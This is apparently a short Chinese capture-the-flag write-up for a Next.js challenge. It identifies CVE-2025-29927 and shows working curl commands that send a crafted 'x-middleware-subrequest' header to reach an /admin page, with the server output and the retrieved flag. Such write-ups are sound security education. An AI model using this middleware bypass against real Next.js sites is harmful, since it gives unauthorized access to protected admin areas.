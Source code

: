 ```bash
strict-transport-security: max-age=15552000; preload
expect-ct: max-age=86400, enforce
referrer-policy: same-origin
x-content-type-options: nosniff
x-frame-options: SAMEORIGIN
x-xss-protection: 1; mode=block
server: cloudflare
alt-svc: h3=":443"; ma=86400
server-timing: cfL4;desc="?proto=TCP&rtt=142217&min_rtt=140721&rtt_var=40638&sent=8&recv=9&lost=0&retrans=0&sent_bytes=3419&recv_bytes=833&delivery_rate=20453&cwnd=253&unsent_bytes=0&cid=ce16e8e4c5ffb851&ts=737&x=0"

Found. Redirecting to https://youtu.be/W8DCWI_Gc9c?si=L-fDdWK4YnGJtEfB


```

查了一下關於 Next.js 的漏洞，發現一個 `CVE-2025-29927`

[# CVE-2025-29927: Next.js Middleware Authorization Bypass - Technical Analysis](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass)

```bash
curl -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" https://nhn
c_next-song.frankk.uk/admin -I
HTTP/2 200
date: Sat, 05 Jul 2025 06:25:17 GMT
content-type: text/html; charset=utf-8
cf-ray: 95a4c8c29fd8b6c9-LAX
cf-cache-status: DYNAMIC
report-to: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v4?s=zmqGXKMq6VXc1DE8Pmv7GsyBfq3LMEnr4x4H5epjPiV4%2FAutnBtxhcXIKZTIdEqUYFutvvAm69IcgTFhJTRSv0nBgI5U8wX1tCGXremPfQHcBiLAbya%2BbGT9g0AgtTnLH1F8tnFmpsZ6Lfs%3D"}],"group":"cf-nel","max_age":604800}
nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
strict-transport-security: max-age=15552000; preload
speculation-rules: "/cdn-cgi/speculation"
expect-ct: max-age=86400, enforce
referrer-policy: same-origin
x-content-type-options: nosniff
x-frame-options: SAMEORIGIN
x-xss-protection: 1; mode=block
server: cloudflare
alt-svc: h3=":443"; ma=86400
server-timing: cfL4;desc="?proto=TCP&rtt=156516&min_rtt=145892&rtt_var=55914&sent=7&recv=8&lost=0&retrans=0&sent_bytes=3420&recv_bytes=898&delivery_rate=19740&cwnd=144&unsent_bytes=0&cid=ba4adfea41ee06e0&ts=733&x=0"
```

```bash
 curl -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" https://nhnc_next-song.frankk.uk/admin
NHNC{ANon_iS_cUtE_RIGhT?}
```
